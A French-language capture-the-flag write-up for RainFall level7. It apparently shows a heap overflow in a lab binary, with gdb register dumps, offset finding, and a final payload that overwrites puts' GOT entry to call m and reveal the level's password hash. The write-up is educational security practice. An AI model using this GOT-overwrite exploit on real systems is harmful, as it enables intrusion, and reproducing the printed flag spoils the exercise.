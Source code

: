 # Solution

```
./level7 $(python -c 'print("A" * 20 + "\x28\x99\x04\x08")') $(python -c 'print("\xf4\x84\x04\x08")')
```

## Description du code

En observant le code source on peu constater que des pointeur on ete malloc et ensuite strcpy est utiliser sans verifier la taille de ce qui est copier.
La fonction m affiche une variable global c dans laquel le .pass est stocker apres l'appel de fgets.
On va donc pouvoir cree un overflow et utiliser une vulnérabilité.

## Test

--------------------------------------
Quelque test :
```
test1 :
level7@RainFall:~$ ./level7 AAA aaa
~~

test2 :
level7@RainFall:~$ ./level7 $(python -c 'print("A" * 200)') $(python -c 'print("BBB")')
Segmentation fault (core dumped)

test3 :
level7@RainFall:~$ ./level7 $(python -c 'print("A")') $(python -c 'print("BBB" * 200)')
~~

test4 :
level7@RainFall:~$ ./level7 $(python -c 'print("A")') $(python -c 'print("BBB" * 20000)')
~~
```
--------------------------------------
Analyse des registre :

Apres les test on peu voir que seulement av[1] overflow sur des donnée critique.
On va analiser les registres lors de l'overflow :
```
level7@RainFall:~$ gdb ./level7
(gdb) run $(python -c 'print("A" * 200)') $(python -c 'print("BBB")')
Starting program: /home/user/level7/level7 $(python -c 'print("A" * 200)') $(python -c 'print("BBB")')

Program received signal SIGSEGV, Segmentation fault.
0xb7eb8f42 in ?? () from /lib/i386-linux-gnu/libc.so.6
(gdb) 

(gdb) info register
eax            0x424242	4342338
ecx            0xbffff909	-1073743607
edx            0x41414141	1094795585
ebx            0xb7fd0ff4	-1208152076
esp            0xbffff63c	0xbffff63c
ebp            0xbffff668	0xbffff668
esi            0x0	0
edi            0x0	0
eip            0xb7eb8f42	0xb7eb8f42
eflags         0x210246	[ PF ZF IF RF ID ]
cs             0x73	115
ss             0x7b	123
ds             0x7b	123
es             0x7b	123
fs             0x0	0
gs             0x33	51

(gdb) disassemble main
Vue sur l'appel du deuxieme strcpy
(...)
   0x080485bd <+156>:	call   0x80483e0 <strcpy@plt>
   0x080485c2 <+161>:	mov    $0x80486e9,%edx
   0x080485c7 <+166>:	mov    $0x80486eb,%eax
   0x080485cc <+171>:	mov    %edx,0x4(%esp)
   0x080485d0 <+175>:	mov    %eax,(%esp)
(...)
```
eax contient notre av[2] et notre overflow a ecrasé eax, et que l'on ecrase pas eip.
On peu en conclure ceci :

- eip ne sera pas utile cette fois ci pas de ret to libc 
- edx est ecrasé et sert contient l'argument 1 du second strcpy
- eax lui contient l'argument numero 2 du second strcpy

--------------------------------------

## Description de l'exploit

On va pouvoir utiliser une vulnerabilité appeler "heap overflow".
Le principe sera d'ecraser l'argument 1 du second strcpy par l'adresse de puts, et de mettre l'adresse de m dans le second argument, 
afin que l'adresse de m sois copier dans l'adresse de puts ce qui va permettre de lancer m a la place de puts.
Comme puts est une fonction de la libc il faudra recuper don adresse dans la GOT.

-----------------
D'abord recuperons le critical offset lorsque l'on ecrase edx :
```
(gdb) run Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A BBBB
Starting program: /home/user/level7/level7 Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A BBBB

Breakpoint 1, 0x08048524 in main ()
(gdb) n
Single stepping until exit from function main,
which has no line number information.

Program received signal SIGSEGV, Segmentation fault.
0xb7eb8f52 in ?? () from /lib/i386-linux-gnu/libc.so.6
(gdb) info register
eax            0x42424242	1111638594
ecx            0xbffff908	-1073743608
edx            0x37614136	929120566
ebx            0xb7fd0ff4	-1208152076
esp            0xbffff69c	0xbffff69c
ebp            0xbffff6c8	0xbffff6c8
esi            0x0	0
edi            0x0	0
eip            0xb7eb8f52	0xb7eb8f52
eflags         0x210246	[ PF ZF IF RF ID ]
cs             0x73	115
ss             0x7b	123
ds             0x7b	123
es             0x7b	123
fs             0x0	0
gs             0x33	51
```

0x37614136 -> ASCII + REVERSE -> 6Aa7

6Aa7 = 20 

-----------------

Adresse de m :
```
(gdb) p &m
$1 = (<text variable, no debug info> *) 0x80484f4 <m>
```
-----------------

AGOT adresse de puts :

```
(gdb) info function puts
All functions matching regular expression "puts":

Non-debugging symbols:
0x08048400  puts
0x08048400  puts@plt
0xb7e911a0  _IO_fputs
0xb7e911a0  fputs
0xb7e927e0  _IO_puts
0xb7e927e0  puts
0xb7e96ee0  fputs_unlocked
0xb7f20750  putspent
0xb7f21fa0  putsgent

(gdb) x/i 0x08048400
   0x8048400 <puts@plt>:	jmp    *0x8049928
```
-----------------
## Payload

GOT adress of puts : 0x08049928
Adress of m : 0x080484f4
Critical Offset : 20
```
level7@RainFall:~$ ./level7 $(python -c 'print("A" * 20 + "\x28\x99\x04\x08")') $(python -c 'print("\xf4\x84\x04\x08")')

5684af5cb4c8679958be4abe6373147ab52d95768e047820bf382e44fa8d8fb9
 - 1713690987
```